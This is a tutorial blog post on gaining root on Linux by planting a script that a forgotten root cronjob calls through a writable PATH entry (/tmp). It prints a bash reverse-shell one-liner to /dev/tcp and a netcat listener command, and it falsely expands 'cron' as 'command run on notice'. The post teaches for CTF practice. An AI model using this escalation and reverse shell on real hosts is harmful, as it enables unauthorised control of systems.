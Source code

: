 ```yaml
---
layout: post
title: Rooting with forgotten CronJobs
subtitle: How to take advantage of forgotten cronjobs to get root access on a host
cover-img: /assets/img/rooting-forgotten-cronjobs/cover.jpg
tags: [cronjob, root, linux, hack, script]
comments: true
---
```


As you might have guessed by the title, in this article, we will explore another scenario where we could take advantage of forgotten cronjobs to gain our precious root access. BUT FIRST, if you are new here, or missed the previous articles about this, don’t hesitate to pay a visit to [PART I](https://orianaolivetti.github.io/2023-07-14-rooting-is-easy/) or [PART II](https://orianaolivetti.github.io/2023-02-23-rooting-with-docker/), totally worth it! 

And now, focusing on the topic of today... 

**What are… cronjobs?**

Well, "cron" stands for **command run on notice**, and yes! As it sounds like. A cronjob is a script that was scheduled to be executed periodically. 
You can list your own cronjobs by typing **crontab -l** or checking the ones in the system by seeing what is inside the **/etc/crontab** file.

Alright, I understand, but… how can this can help you get root access? If we are lucky enough, we will find a forgotten cronjob, which no longer exists, that we can modify to our advantage! 
However, we need to have our fingers crossed so that we find a place where we have write permissions. More on that later! Don’t worry for now. 

**Let’s begin with the fun stuff**

Oh no! What happened? For some reason I’m stuck as this low-privilege user called simba. Well… I’ll have to find a way to get root access as soon as possible so I can do important stuff! 

First, let’s see what cronjobs are available. Feel free to experiment alongside simba and type **cat /etc/crontab**

![Terminal](/assets/img/rooting-forgotten-cronjobs/cron1.png){: .mx-auto.d-block :}

Here we have some interesting information. Let me explain…
1. We see that there are only 2 scripts running every minute, **backup.sh** and **server_connect.py**
2. Both scripts are run with **root** permissions.
3. The **first script** is located in oriana’s home, so most probably we won’t have access to modify the contents of that particular script.
4. The **second script**, has no absolute path. When this happens, the crontab binary will look for the script in all locations listed on the **PATH** variable on top of the file.

So… as you might be thinking, our salvation could be the server_connect.py script in case it is located somewhere we have write access to! Let’s check first if the script exists already.
~~~
find / -name server_connect.py 2>/dev/null
~~~
![Terminal](/assets/img/rooting-forgotten-cronjobs/cron2.png){: .mx-auto.d-block :}

This means the file does not exist. So we might be able to create it in one of the directories listed on **PATH**. Where could simba have write access? Have you guessed already?
Of course! Everyone can write on the **/tmp** folder!. So now we could execute a reverse shell with root permissions.

![Terminal](/assets/img/rooting-forgotten-cronjobs/cron3.png){: .mx-auto.d-block :}

Simba will create then a server_connect.py script on the /tmp folder. In there, he added a bash script for executing a reverse shell. Yes, a bash script, because even though it used to by a python script, it is just the name of the file. That is why we declare the binary to execute on top.

There you go, feel free to copy it! And replace it with your own ip and port for the reverse shell. 
~~~
#!/bin/bash

bash -i >& /dev/tcp/<ip>/<port> 0>&1
~~~

And don’t forget to give it execution access!!
~~~
chmod +x server_connect.py
~~~
![Terminal](/assets/img/rooting-forgotten-cronjobs/cron4.png){: .mx-auto.d-block :}

**Are we ready now?**

Almost there! We just need to start a listener on that same port, so the reverse shell can connect! Let’s type **nc -nlvp 4444**  on the console and wait…
And after a minute, we got it! We got a reverse shell with root permissions! 

![Terminal](/assets/img/rooting-forgotten-cronjobs/cron5.png){: .mx-auto.d-block :}

Now we we are ready to do more hacking! Like reading sensitive files, or perform system-level actions. The sky is the limit! 

**Conclusion**

From now on, you and simba know how to gain root access when some forgotten scripts are available to run as root periodically, due to security misconfigurations. 
It is time to have fun and nplay some CTFs with this trick under our sleeve! 

Happy Hacking! 